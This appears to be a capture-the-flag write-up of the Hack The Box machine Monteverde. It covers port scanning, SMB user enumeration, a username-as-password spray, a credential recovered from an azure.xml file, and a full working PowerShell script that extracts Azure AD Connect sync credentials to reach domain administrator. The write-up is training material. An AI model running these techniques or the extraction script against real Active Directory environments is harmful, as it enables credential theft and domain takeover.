

---
search:
  exclude: true
---
# Monteverde Writeup

## Introduction :

Monteverde is a Medium Windows box released back in January 2020.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~/HTB/monteverde]
    → nmap -vvv -p- 10.10.10.172 --max-retries 0 -Pn --min-rate=500 2>/dev/null | grep Discovered
    Discovered open port 53/tcp on 10.10.10.172
    Discovered open port 139/tcp on 10.10.10.172
    Discovered open port 445/tcp on 10.10.10.172
    Discovered open port 135/tcp on 10.10.10.172
    Discovered open port 49674/tcp on 10.10.10.172
    Discovered open port 49673/tcp on 10.10.10.172
    Discovered open port 49667/tcp on 10.10.10.172
    Discovered open port 636/tcp on 10.10.10.172
    Discovered open port 3269/tcp on 10.10.10.172
    Discovered open port 464/tcp on 10.10.10.172
    Discovered open port 49693/tcp on 10.10.10.172
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~/HTB/monteverde]
    → nmap -sCV 10.10.10.172 -Pn
    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-23 11:59 CEST
    Nmap scan report for 10.10.10.172
    Host is up (0.47s latency).
    Not shown: 989 filtered ports
    PORT     STATE SERVICE       VERSION
    53/tcp   open  domain        Simple DNS Plus
    88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-06-23 10:07:57Z)
    135/tcp  open  msrpc         Microsoft Windows RPC
    139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
    389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
    445/tcp  open  microsoft-ds?
    464/tcp  open  kpasswd5?
    593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    636/tcp  open  tcpwrapped
    3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
    3269/tcp open  tcpwrapped
    Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows
    
    Host script results:
    |_clock-skew: 8m02s
    | smb2-security-mode:
    |   2.02:
    |_    Message signing enabled and required
    | smb2-time:
    |   date: 2021-06-23T10:08:24
    |_  start_date: N/A
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 108.62 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up a bunch of smb ports so let's run enum4linux on it:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~/HTB/monteverde]
    → enum4linux 10.10.10.172
    Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Wed Jun 23 12:06:15 2021
    
     ==========================
    |    Target Information    |
     ==========================
    Target ........... 10.10.10.172
    RID Range ........ 500-550,1000-1050
    Username ......... ''
    Password ......... ''
    Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
    
    [...]
    
     ====================================================
    |    Password Policy Information for 10.10.10.172    |
     ====================================================
    
    
    [+] Attaching to 10.10.10.172 using a NULL share
    
    [+] Trying protocol 139/SMB...
    
            [!] Protocol failed: Cannot request session (Called Name:10.10.10.172)
    
    [+] Trying protocol 445/SMB...
    
    [+] Found domain(s):
    
            [+] MEGABANK
            [+] Builtin
    
    [+] Password Info for Domain: MEGABANK
    
            [+] Minimum password length: 7
            [+] Password history length: 24
            [+] Maximum password age: 41 days 23 hours 53 minutes
            [+] Password Complexity Flags: 000000
    
                    [+] Domain Refuse Password Change: 0
                    [+] Domain Password Store Cleartext: 0
                    [+] Domain Password Lockout Admins: 0
                    [+] Domain Password No Clear Change: 0
                    [+] Domain Password No Anon Change: 0
                    [+] Domain Password Complex: 0
    
            [+] Minimum password age: 1 day 4 minutes
            [+] Reset Account Lockout Counter: 30 minutes
            [+] Locked Account Duration: 30 minutes
            [+] Account Lockout Threshold: None
            [+] Forced Log off Time: Not Set
    
    Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 501.
    
    [+] Retieved partial password policy with rpcclient:
    
    Password Complexity: Disabled
    Minimum Password Length: 7
    

enum4linux gives us a few usernames but there are no default passwords or anything else, so let's take a look at the box using rpcclient:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~/HTB/monteverde]
    → rpcclient -U '' -N 10.10.10.172
    rpcclient $> enumdomusers
    user:[Guest] rid:[0x1f5]
    user:[AAD_987d7f2f57d2] rid:[0x450]
    user:[mhope] rid:[0x641]
    user:[SABatchJobs] rid:[0xa2a]
    user:[svc-ata] rid:[0xa2b]
    user:[svc-bexec] rid:[0xa2c]
    user:[svc-netapp] rid:[0xa2d]
    user:[dgalanos] rid:[0xa35]
    user:[roleary] rid:[0xa36]
    user:[smorgan] rid:[0xa37]
    rpcclient $>
    
    

And here we have been able to enumerate users over NetBIOS. So we have a list of usernames:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/12 ] [~/HTB/monteverde]
    → cat usernames.txt
    Guest
    AAD_987d7f2f57d2
    mhope
    SABatchJobs
    svc-ata
    svc-bexec
    svc-netapp
    dgalanos
    roleary
    smorgan
    
    

Let's use it with crackmapexec:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~/HTB/monteverde]
    → crackmapexec smb 10.10.10.172 -u usernames.txt -p usernames.txt
    SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:Guest STATUS_LOGON_FAILURE
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:mhope STATUS_LOGON_FAILURE
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:SABatchJobs STATUS_LOGON_FAILURE
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:svc-ata STATUS_LOGON_FAILURE
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:svc-bexec STATUS_LOGON_FAILURE
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:svc-netapp STATUS_LOGON_FAILURE
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:dgalanos STATUS_LOGON_FAILURE
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:roleary STATUS_LOGON_FAILURE
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:smorgan STATUS_LOGON_FAILURE
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:Guest STATUS_LOGON_FAILURE
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:mhope STATUS_LOGON_FAILURE
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:SABatchJobs STATUS_LOGON_FAILURE
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:svc-ata STATUS_LOGON_FAILURE
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:svc-bexec STATUS_LOGON_FAILURE
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:svc-netapp STATUS_LOGON_FAILURE
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:dgalanos STATUS_LOGON_FAILURE
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:roleary STATUS_LOGON_FAILURE
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:smorgan STATUS_LOGON_FAILURE
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:Guest STATUS_LOGON_FAILURE
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:mhope STATUS_LOGON_FAILURE
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:SABatchJobs STATUS_LOGON_FAILURE
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:svc-ata STATUS_LOGON_FAILURE
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:svc-bexec STATUS_LOGON_FAILURE
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:svc-netapp STATUS_LOGON_FAILURE
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:dgalanos STATUS_LOGON_FAILURE
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:roleary STATUS_LOGON_FAILURE
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:smorgan STATUS_LOGON_FAILURE
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:Guest STATUS_LOGON_FAILURE
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:mhope STATUS_LOGON_FAILURE
    SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs
    
    

And here you see we have been able to login using the credentials **SABatchJobs:SABatchJobs**
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~/HTB/monteverde]
    → smbclient -L 10.10.10.172 -U SABatchJobs
    Enter WORKGROUP\SABatchJobs's password:
    
            Sharename       Type      Comment
            ---------       ----      -------
            ADMIN$          Disk      Remote Admin
            azure_uploads   Disk
            C$              Disk      Default share
            E$              Disk      Default share
            IPC$            IPC       Remote IPC
            NETLOGON        Disk      Logon server share
            SYSVOL          Disk      Logon server share
            users$          Disk
    SMB1 disabled -- no workgroup available
    
    

Let's take a look at the **users$** share:
    
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~/HTB/monteverde]
    → smbclient -U SABatchJobs //10.10.10.172/users$
    Enter WORKGROUP\SABatchJobs's password:
    Try "help" to get a list of possible commands.
    smb: \> ls
      .                                   D        0  Fri Jan  3 14:12:48 2020
      ..                                  D        0  Fri Jan  3 14:12:48 2020
      dgalanos                            D        0  Fri Jan  3 14:12:30 2020
      mhope                               D        0  Fri Jan  3 14:41:18 2020
      roleary                             D        0  Fri Jan  3 14:10:30 2020
      smorgan                             D        0  Fri Jan  3 14:10:24 2020
    
                    309503 blocks of size 4096. 304926 blocks available
    smb: \> cd mhope
    smb: \mhope\> ls
      .                                   D        0  Fri Jan  3 14:41:18 2020
      ..                                  D        0  Fri Jan  3 14:41:18 2020
      azure.xml                          AR     1212  Fri Jan  3 14:40:23 2020
    
                    309503 blocks of size 4096. 304926 blocks available
    smb: \mhope\> get azure.xml
    getting file \mhope\azure.xml of size 1212 as azure.xml (0.6 KiloBytes/sec) (average 0.6 KiloBytes/sec)
    

And we navigate to the azure.xml file to download it:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/12 ] [~/HTB/monteverde]
    → cat azure.xml
    Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
     Obj RefId="0">
      TN RefId="0">
       T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential/T>
       T>System.Object/T>
      /TN>
      ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential/ToString>
      Props>
       DT N="StartDate">2020-01-03T05:35:00.7562298-08:00/DT>
       DT N="EndDate">2054-01-03T05:35:00.7562298-08:00/DT>
       G N="KeyId">00000000-0000-0000-0000-000000000000/G>
       S N="Password">**4n0therD4y@n0th3r$** /S>
      /Props>
     /Obj>
    /Objs>%
    

And here you see that we have been able to find someone's password, we think it is the user mhope's password, so lets try to login with his credentials:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/12 ] [~/HTB/monteverde]
    → crackmapexec smb 10.10.10.172 -u mhope -p 4n0therD4y@n0th3r$
    SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
    SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$
    
    

Looks like they are correct! Let's login with EvilWinRM:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/12 ] [~/HTB/monteverde]
    → evil-winrm -i 10.10.10.172 -u mhope -p 4n0therD4y@n0th3r$
    
    Evil-WinRM shell v2.4
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\mhope\Documents> whoami
    megabank\mhope
    *Evil-WinRM* PS C:\Users\mhope\Documents> cd ..\desktop
    *Evil-WinRM* PS C:\Users\mhope\desktop> type user.txt
    49XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it! We have been able to get the user flag.

## **Part 3 : Getting Root Access**

Now in order to privesc this box we need to take a look at the groups of our current user:
    
    
    *Evil-WinRM* PS C:\Users\mhope\desktop> whoami /groups
    
    GROUP INFORMATION
    -----------------
    
    Group Name                                  Type             SID                                          Attributes
    =========================================== ================ ============================================ ==================================================
    Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
    BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                 Mandatory group, Enabled by default, Enabled group
    BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
    BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
    MEGABANK\Azure Admins                       Group            S-1-5-21-391775091-850290835-3566037492-2601 Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                  Mandatory group, Enabled by default, Enabled group
    Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448
    *Evil-WinRM* PS C:\Users\mhope\desktop>
    

Here we see that there is the **Azure Admins** group. After googling a bit you will probably stumble upon an Azure AD Connect exploit PoC [blogpost](https://blog.xpnsec.com/azuread-connect-for-redteam/). The exploit as it is in this article is not completely correct:
    
    
    Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"
    
    $client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync"
    $client.Open()
    $cmd = $client.CreateCommand()
    $cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
    $reader = $cmd.ExecuteReader()
    $reader.Read() | Out-Null
    $key_id = $reader.GetInt32(0)
    $instance_id = $reader.GetGuid(1)
    $entropy = $reader.GetGuid(2)
    $reader.Close()
    
    $cmd = $client.CreateCommand()
    $cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
    $reader = $cmd.ExecuteReader()
    $reader.Read() | Out-Null
    $config = $reader.GetString(0)
    $crypted = $reader.GetString(1)
    $reader.Close()
    
    add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
    $km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
    $km.LoadKeySet($entropy, $instance_id, $key_id)
    $key = $null
    $km.GetActiveCredentialKey([ref]$key)
    $key2 = $null
    $km.GetKey(1, [ref]$key2)
    $decrypted = $null
    $key2.DecryptBase64ToString($crypted, [ref]$decrypted)
    
    $domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
    $username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
    $password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}
    
    Write-Host ("Domain: " + $domain.Domain)
    Write-Host ("Username: " + $username.Username)
    Write-Host ("Password: " + $password.Password)
    
    

However we need to change the following line:
    
    
    
    $client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Data Source=(**local**);Initial Catalog=ADSync;**Integrated Security=true;** "
    
    

So we end up with the following script:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~/HTB/monteverde]
    → cat exploit.ps1
    Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"
    
    $client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Data Source=(local);Initial Catalog=ADSync;Integrated Security=true;"
    $client.Open()
    $cmd = $client.CreateCommand()
    $cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
    $reader = $cmd.ExecuteReader()
    $reader.Read() | Out-Null
    $key_id = $reader.GetInt32(0)
    $instance_id = $reader.GetGuid(1)
    $entropy = $reader.GetGuid(2)
    $reader.Close()
    
    $cmd = $client.CreateCommand()
    $cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
    $reader = $cmd.ExecuteReader()
    $reader.Read() | Out-Null
    $config = $reader.GetString(0)
    $crypted = $reader.GetString(1)
    $reader.Close()
    
    add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
    $km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
    $km.LoadKeySet($entropy, $instance_id, $key_id)
    $key = $null
    $km.GetActiveCredentialKey([ref]$key)
    $key2 = $null
    $km.GetKey(1, [ref]$key2)
    $decrypted = $null
    $key2.DecryptBase64ToString($crypted, [ref]$decrypted)
    
    $domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
    $username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
    $password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerXML}}
    
    Write-Host ("Domain: " + $domain.Domain)
    Write-Host ("Username: " + $username.Username)
    Write-Host ("Password: " + $password.Password)
    
    

Since we're in evil-winrm we can upload it onto the box easily and then run it:
    
    
    *Evil-WinRM* PS C:\Users\mhope\desktop> upload exploit.ps1 .
    Info: Uploading exploit.ps1 to C:\Users\mhope\desktop\.
    
    
    Data: 2340 bytes of 2340 bytes copied
    
    Info: Upload successful!
    
    *Evil-WinRM* PS C:\Users\mhope\desktop> powershell -file exploit.ps1
    AD Connect Sync Credential Extract POC (@_xpn_)
    
    Domain: MEGABANK.LOCAL
    Username: administrator
    Password: d0m@in4dminyeah!
    
    

And there you go! We have been able to get the administrator credentials, now let's spawn another evilwinrm shell: 
    
    
    *Evil-WinRM* PS C:\Users\mhope\desktop> exit
    
    Info: Exiting with code 0
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/12 ] [~/HTB/monteverde]
    → evil-winrm -i 10.10.10.172 -u administrator -p 'd0m@in4dminyeah!'
    
    
    Evil-WinRM shell v2.4
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
    *Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
    12XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And there you go! We managed to get the root flag.

## **Conclusion**

Here we can see the progress graph :

